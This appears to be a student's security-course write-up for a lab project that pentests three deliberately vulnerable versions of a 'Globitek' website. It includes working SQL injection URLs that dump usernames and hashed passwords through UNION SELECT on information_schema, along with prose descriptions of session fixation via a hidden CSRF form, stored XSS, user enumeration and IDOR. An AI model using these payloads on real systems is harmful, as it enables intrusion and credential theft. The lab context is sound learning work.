






# Project 8 - Pentesting Live Targets

Time spent: **24** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1:  SQL Injection in (https://35.184.88.14/blue/public/salesperson.php?id=')

First I found the table name from information schema
https://35.184.88.145/blue/public/salesperson.php?id=-2%27%20UNION%20SELECT%201,table_name,3,4,5%20FROM%20information_schema.tables%20WHERE%20table_name%20LIKE%20%27%users%

then i found the columns from the information schema
https://35.184.88.145/blue/public/salesperson.php?id=-2' UNION SELECT 1,column_name,table_name,4,5 FROM information_schema.columns WHERE column_name LIKE '%pass%

then i used the information schema to see username and hashed password
https://35.184.88.145/blue/public/salesperson.php?id=-2%27%20UNION%20SELECT%201,username,hashed_password,4,5%20FROM%20users%20WHERE%20id%20=%27<go from 1 to n where n is the number of users you want to know>

Vulnerability #2:  Session Fixation using CSRF
I created a html form in an iframe which submits on load and the redirects the visitor to blue website
the form fixes the attackers session id.
now when the visitor logs in in the staff section on blue website attacker will also gain access to the staff section because the blue website doesn't regenerate session id's on login

## Green

Vulnerability #1: Cross-Site Scripting (XSS) (Feedback form)
The feedback in the green website allows you to perform stored xss. We can redirect the admin to a form which submits a form on attackers website to tell them if the store xss was successful.

Vulnerability #2: User enumeration
Allows to know if a username is valid or not by checking whether the error message is bold or not

## Red

Vulnerability #1: Cross-Site Request Forgery (CSRF) admin panel edit forms
I created a form for red blue and green websites and while clicked as admin clicked on the forms link. Red is not performing csrf token validation while blue and green are.

Vulnerability #2: Insecure Direct Object Reference (IDOR) listing salespersons
https://35.184.88.145/red/public/salesperson.php?id=10
https://35.184.88.145/red/public/salesperson.php?id=11
going to these websites the user is able to see data which shouldn't be seen
this doesn't work on blue and green because they are not linking to the object directly

## Notes

Describe any challenges encountered while doing the work

Session fixation form creation was the most difficult part for me. I did it for the first time. I wasn't sure if I could use the hack tool and then I wasn't sure how to hide the csrf form from the admin. I tried looking for ways to hide the form and then redirect the admin to the original website. At first I wasn't able to prevent the admin from being redirected to the hack tool webpage. Then I couldn't redirect the admin to blue site before submitting the session changing form. But figured it out.